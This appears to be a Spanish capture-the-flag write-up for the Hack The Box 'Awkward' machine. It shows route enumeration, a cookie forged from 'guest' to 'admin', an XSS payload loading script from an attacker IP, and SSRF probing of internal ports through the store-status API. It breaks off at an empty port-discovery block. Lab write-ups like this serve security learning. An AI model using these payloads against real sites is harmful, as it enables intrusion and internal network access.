 ```console
└─$ curl -s http://hat-valley.htb/js/app.js > app.js
└─$ cat app.js | grep "\!\*\*\* \.\/" | sponge app.js
# Eliminamos las lienas largas
└─$ cat app.js | grep -vE "source|static"
└─$ cat app.js | grep -vE "source|static" | grep -oP "./src/(.*?).vue" | sort -u
./src/App.vue
./src/Base.vue
./src/Dashboard.vue
./src/HR.vue
./src/Leave.vue
```
La ruta "hr" tiene contenido, un panel de login.
En la seccion de cookies (click derecho/inspect element/storage) hay un token cuyo valor es guest. 
![akward2](https://user-images.githubusercontent.com/96772264/221432728-1e7c290e-16d2-4bb9-a9b9-4cc6abb33fd1.PNG)

Si lo cambiamos a "admin"
En la seccion "leave" nos dice que lo que pongamos lo vera la tal Christine
Intentamos un XSS:
```
POST /api/submit-leave HTTP/1.1
Host: hat-valley.htb
Referer: http://hat-valley.htb/leave
Cookie: token=admin
{"reason":"<script src='http://10.10.14.7/script.js'>",
"start":"<script src='http://10.10.14.7/script.js'>",
"end":"<script src='http://10.10.14.7/script.js'>"}
```
Pero no recibimos ninguna respuesta con ```sudo python3 -m http.server 80;``` sino que da error.

Aun asi tenemos la ruta "api". Si hacemos una peticion POST
```console
└─$ curl -s -X POST http://hat-valley.htb/api/submit-leave # Invalid user
└─$ curl -s -X POST http://hat-valley.htb/api/submit-leave -H "Content-Type: application/json"  -d '{"user":"Crhistine"}'
Invalid user
```
![awkward8](https://user-images.githubusercontent.com/96772264/221432797-7c3d4f99-9a68-40b7-9114-5de9faedfe5f.PNG)

Si en network filtramos por api y toqueteamos dentro de hr
```
/api/all-leave
/api/submit-leave
/api/staff-details
/api/store-status -> http://hat-valley.htb/api/store-status?url="http://store.hat-valley.htb"
```
-------------------------------------------------------------
## Part 3: SSRF

Explotamos mas la ruta **/api/store-status**
```console
└─$ curl -s 'http://hat-valley.htb/api/store-status?url="http://10.10.14.7"' 
# Peticion get con -> sudo python3 -m http.server 80;
└─$ curl -s 'http://hat-valley.htb/api/store-status?url="http://store.hat.valley.htb"' # se queda pillado
└─$ curl -s 'http://hat-valley.htb/api/store-status?url="http://127.0.0.1:80"' -i | grep "Content-Length:"
Content-Length: 132                                                                                               └─$ curl -s 'http://hat-valley.htb/api/store-status?url="http://127.0.0.1:81"' -i | grep "Content-Length:"
Content-Length: 0
```
Probamos con un internal port discovery:
```console
```